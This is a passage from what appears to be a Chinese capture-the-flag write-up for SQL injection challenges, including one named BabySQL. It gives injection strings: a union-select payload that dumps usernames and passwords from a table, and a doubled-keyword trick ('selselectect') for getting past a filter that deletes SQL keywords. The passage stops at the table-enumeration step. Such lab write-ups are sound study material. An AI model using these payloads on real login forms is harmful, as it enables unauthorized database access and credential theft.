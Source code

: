 ![](../pic/45.png)

l0ve1ysq1表中发现了flag

`?username='union+select+1,group_concat(username,',',password),3+from+l0ve1ysq1+limit+0,1+%23&password=123` 

![](../pic/46.png)



### BabySQL

fuzzing一下，将union,select,and,or,where,from删除

此时可以selselectect将select删除之后就变成了sel ~~select~~ ect

因为和上面的一样，直接查询数据库

1. #### 查数据库

`?username='uniunionon+selselectect+1,database(),3--+&password=123`

数据库名还是geek

2. #### 查询表
